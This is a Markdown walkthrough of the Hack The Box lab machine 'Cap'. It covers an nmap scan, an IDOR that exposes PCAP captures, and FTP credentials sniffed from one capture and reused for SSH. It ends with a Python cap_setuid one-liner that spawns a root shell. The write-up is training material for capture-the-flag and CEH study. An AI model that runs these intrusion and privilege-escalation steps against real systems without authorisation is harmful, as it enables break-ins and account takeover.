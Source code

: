 # 🛡️ Hack The Box — CAP (Guided Mode Walkthrough) 

**Difficulty**: Easy  
**Category**: Linux, Web  
**Tools Used**: Nmap, FTP, Wireshark, Python, SSH  
**CEH Domains**: Reconnaissance, Scanning, Gaining Access, Maintaining Access, Privilege Escalation  

---

## ⚔️ Phase 1: Reconnaissance

**Goal**: Identify open ports, services, and basic information about the target.

We begin with a simple Nmap scan to discover what’s exposed:

```bash
nmap -sC -sV -v -oN cap-initial.txt 10.10.10.245
```

**Explanation:**
- `-sC` : Run default scripts
- `-sV` : Detect service versions
- `-v` : Verbose output
- `-oN` : Save output to file

**Nmap Results:**
- **FTP (21)** — vsftpd 3.0.3
- **SSH (22)** — OpenSSH 8.2p1
- **HTTP (80)** — Gunicorn server hosting a "Security Dashboard"

---

## 🔍 Phase 2: Scanning & Enumeration

Browsing to `http://10.10.10.245`, we discover a web app that captures "5-second PCAPs" and stores them at `/data/{id}`.

By manually visiting `/data/0`, `/data/1`, etc., we can view historical captures — this is a classic **IDOR vulnerability** (Insecure Direct Object Reference).

Each capture has a **Download** button. We download one of the PCAP files and inspect it.

---

## 📡 Phase 3: Gaining Access

Open the `.pcap` in Wireshark:

```bash
wireshark 0.pcap
```

Apply the filter:
```bash
ftp
```

Within the capture, we discover cleartext FTP credentials:
```
Username: nathan
Password: <REDACTED>
```

Try logging in via FTP:
```bash
ftp 10.10.10.245
```

Success! We can access Nathan’s home directory and see `user.txt`, but we can't upload or execute. So we try:

```bash
ssh nathan@10.10.10.245
```

Using the same credentials: **We're in!**

---

## 🎩 Phase 4: Privilege Escalation

Now with a full shell, we begin enumerating the system.

Check sudo rights:
```bash
sudo -l
```
> User nathan may not run sudo.

Check for SUID binaries:
```bash
find / -perm -4000 -type f 2>/dev/null
```
> Nothing unusual

Check for Linux capabilities:
```bash
getcap -r / 2>/dev/null
```

**Key Finding:**
```
/usr/bin/python3.8 = cap_setuid+ep
```

This means Python can set its user ID to 0 — aka root — without being SUID or needing sudo.

### 🔓 Exploitation:
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Confirm:
```bash
whoami && id
```
> You are now root.

---

## ✅ Summary

| CEH Phase            | Technique                        | Tool(s) Used     |
|----------------------|-----------------------------------|------------------|
| Reconnaissance        | Port scan                        | nmap             |
| Scanning & Enum       | IDOR discovery                   | browser, dir brute|
| Gaining Access        | FTP creds via PCAP               | Wireshark, FTP   |
| Maintaining Access    | SSH shell                        | OpenSSH          |
| Privilege Escalation  | cap_setuid+ep on python3.8       | getcap, Python   |

---

## 🧵 Next Steps

This is the GitHub summary version. For a full beginner-focused breakdown with visuals, tips, CEH exam insights, and commentary—check out the full writeup on [Alien37.com](https://www.alien37.com/posts/htb-cap-walkthrough) _(coming soon)_

---

*Walkthrough by [Alien37](https://github.com/a1i3n37x) — Stay curious. Stay sharp.*

